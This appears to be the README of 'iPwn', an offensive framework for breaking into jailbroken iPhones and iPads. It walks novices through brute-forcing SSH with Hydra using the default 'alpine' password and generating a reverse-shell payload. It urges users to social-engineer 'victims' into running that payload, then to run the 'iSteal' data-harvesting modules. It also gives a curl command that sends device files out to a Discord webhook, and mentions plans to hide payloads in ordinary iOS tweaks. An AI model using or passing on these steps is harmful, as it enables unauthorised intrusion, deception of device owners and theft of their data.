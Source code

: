 # iPwn
A Framework meant for the exploitation of iOS devices.
![image](https://user-images.githubusercontent.com/78043996/119547132-ba00ee80-bd62-11eb-989a-1b9522ca6bd4.png)

<!> REMEMBER: THE IPHONE YOU ARE ATTEMPTING TO GET INTO USING THIS TOOL MUST BE JAILBROKEN <!>
# Status - ❌
This project is still being worked on. I'm adding more extensions and options for post-exploitation for harvesting Device information and other things. Im also working on a way to put a payload in a normal iOS tweak so that getting a reverse shell can be easier.

# Update logs
[6/2/21] - Added 4 extra modules for the 'iSteal' post-exploitation tool. Also added an option to install the checkra1n jailbreak.

[5/25/21] - Added 8 extra modules for the 'iSteal' post-exploitation tool.

[5/25/21] - Added 2 extra modules for the 'iSteal' post-exploitation tool.

# Description/How to use [FOR NOOBIES!!!]
iPwn is a framework meant for exploiting and and gaining access to iOS devices. It also has an extension that is a mini-framework called 'iSteal' that is meant for post-exploitation (after you get access to the device). This description will walk you through the different ways and steps to get access to an iOS device and harvest information from it.

The first way of getting access to an iOS device. - SSH-Bruteforcing.

Most jailbroken iOS devices with Cydia come prepackaged with OpenSSH. And usually, the credentials are very weak or common, one of the most common passwords will be included in a wordlist that should be in your folder if you downloaded iPwn from my Github.

So lets begin! So first off, we'll start by running the script.
```
python main.py
```
Then, we are going to type in the 'brute' command. (If you want to type help and get familiar with the commands, you may do so.)
![image](https://user-images.githubusercontent.com/78043996/119564117-67313200-bd76-11eb-9acd-e80b952f138d.png)

Once we type in the 'brute' command. Type in 'help' to display all the available commands.
![image](https://user-images.githubusercontent.com/78043996/119564260-95167680-bd76-11eb-8adb-122e9455d47d.png)
Now, we are going to use the 'default' command to start SSH-Bruteforcing with a wordlist containing the most common passwords.
You will be asked to enter the targets IP address, please ensure you are entering the correct and vaild one, press enter, then move on with the next step.
![image](https://user-images.githubusercontent.com/78043996/119564509-deff5c80-bd76-11eb-9df7-a58df14cb08e.png)

<!> IF YOU ARE GETTING ERRORS, PLEASE MAKE SURE THAT HYDRA IS INSTALLED, YOU CAN INSTALL HYDRA WITH THE COMMANDS BELOW <!>
```
commands to install hydra:

sudo apt install hydra
sudo pacman -S hydra
```
Now back to the tutorial, if you have hydra installed on your PC, it should already be attempting to bruteforce. Just sit tight for about 20-40 seconds and if the device does use the default/common credentails supplied in the wordlist, then Hydra should give you a little message that shows the correct password.
![image](https://user-images.githubusercontent.com/78043996/119565382-deb39100-bd77-11eb-9081-c0a500acbf65.png)

As we can see, the correct password is 'alpine'. Now we can login into the phone by doing 'ssh root@ip_goes_here' on another terminal window. Once it prompts you for a password just enter in the password you got from Hydra.
![image](https://user-images.githubusercontent.com/78043996/119565646-35b96600-bd78-11eb-9602-09de842470b1.png)

Now we are logged in!

![image](https://user-images.githubusercontent.com/78043996/119565745-54b7f800-bd78-11eb-864e-60e569ab4dbc.png)

At this point we probably want to gather some information on the phone and control it, that will come later. Because first, we need to install some very important things. If you want to use SCP to transfer the setup file that automates everything then you may do so. The file is in /post-exploitation/post.sh.
Once you transfered the 'post.sh' file over to the iOS device, execute it by doing 'bash post.sh' and it should start installing and setting up the post exploitation tools that we will use.

<!> NOTE: THE COMMANDS BELOW WILL ONLY BE FOR THE PEOPLE THAT WANT TO INSTALL THE NECESSARY PACKAGES AND TOOLS MANUALLY <!>
```
run all these commands to setup/install everything thats needed:

apt install netcat
apt install python
apt install nano
git clone https://github.com/0x1CA3/iSteal.git
git clone https://github.com/0x1CA3/AutoEnum.git
```

Ok, so now that we have everything installed, we can go into the 'iSteal' folder and run the 'iSteal' post-exploitation script.
```
python3 post.py
```
<!> NOTE: Make sure when you try running python files, you run it using "python3" instead of "python" or "py" <!>

So now the script should be loaded, if you would like to use the 'help' command and look around, you may do so.
![image](https://user-images.githubusercontent.com/78043996/119568186-3c95a800-bd7b-11eb-9e3c-55c0dcdbefe1.png)

Now, we are going to use the 'list' command to show the available modules/options for post-exploitation.
![image](https://user-images.githubusercontent.com/78043996/119593903-d45dbb00-bda8-11eb-9dda-3f59b25b98b6.png)

<!> KEEP IN MIND: THERE WILL BE ALOT OF UPDATES ON THE POST-EXPLOITATION SCRIPT, AND MORE MODULES WILL BE ADDED, SO THIS IMAGE WILL BE UPDATED FOR THE SAKE OF BEING ACCURATE <!>

To use a module, simply do 'use specific/module'. Example: use modules/list_installed_default_apps

And as you can see, when we run that module, it shows us the installed default applications on the targets iOS device.
![image](https://user-images.githubusercontent.com/78043996/119568907-0e649800-bd7c-11eb-9f11-895a0db41a5b.png)


The second way to get access to an iOS device. - Reverse shell.

Now, im going to show you how to do it the second way, which is a little more advanced. Keep in mind, I wont include pictures for this part.
```
run the iPwn framework by doing 'python main.py'
type in the 'payload' command
wait for the payload factory to load.
select a payload of your choice, Example: use payloads/factory/reverse_bash
enter your IP
enter your Port
then you should get a message that says 'payload generated'
type in the 'back' command to go back to the main menu
type in the 'listen' command to start listening for incoming connections
make sure that your victim runs the script via terminal or throught their own way, try social engineering, be creative!
once the script is executed on the victims iOS device, you should get a connection
install the important packages via transferring the 'post.sh' located in /post-exploitation and executing it, or manually do it yourself.
you can now run the 'iSteal' or 'AutoEnum' post-exploitation tools
have fun! :)
```
<!> If you are doing step 2 and get stuck on the part where you have to install the important packages/tools, go into step 1 and copy the guide for installing the packages/tools! <!>

# File transfer/Extraction
There's multiple ways to transfer files to the iOS device and there's also lots of ways to download them. The easiest way to extract and download files from the iOS device is to use Curl and a discord webhook.

<!> NOTE: The segment below will demonstrate how to extract and download files from the iOS device using curl <!>

```
Step 1: Create a discord server
Step 2: Create a webhook and copy the link
Step 3: On the iOS device, navigate towards the directory that contains the file you want to retrieve.
Step 4: enter the command below (replace file_here.txt with the name of your file, replace webhook_url_here with your webhook url)

curl -i -H 'Expect: application/json' -F file=@file_here.txt -F 'payload_json={ "wait": true, "content": "", "username": "" }' webhook_url_here

Step 5: wait around 10-50 seconds
Done! The file should now be uploaded to your discord server. You can now download/view the file.
```

# Tested OS's
```
Windows 10 - Stable
Garuda Linux - Stable
Arch based distros - Stable
```

# Supported and tested iOS devices
```
Supported Devices [The post-exploitation extension should work for all of these]
-----------------
iPods newer than the 4th Gen iPod
iPhone 4
iPhone 4S
iPhone 5
iPhone 6
iPhone SE
iPhone 7
iPhone 7+
iPhone 8
iPhone 8+
iPhone X
iPhone XR
iPhone XS
iPhone 11
iPhone 12

My own tested devices [Ones I myself have personally tested]
---------------------
iPhone 4S
iPhone 5S
iPhone SE
iPhone 7+
iPad Air
iPod 4th Gen
```

# Screenshots
![image](https://user-images.githubusercontent.com/78043996/119547477-2845b100-bd63-11eb-96bb-f01106e833b6.png)
![image](https://user-images.githubusercontent.com/78043996/119548701-7909d980-bd64-11eb-9adf-774cc787586e.png)
![image](https://user-images.githubusercontent.com/78043996/119549700-7f4c8580-bd65-11eb-8131-0f261883df45.png)
![image](https://user-images.githubusercontent.com/78043996/119549828-a3a86200-bd65-11eb-831e-5de71ea65323.png)

# Credits
[https://github.com/0x1CA3]
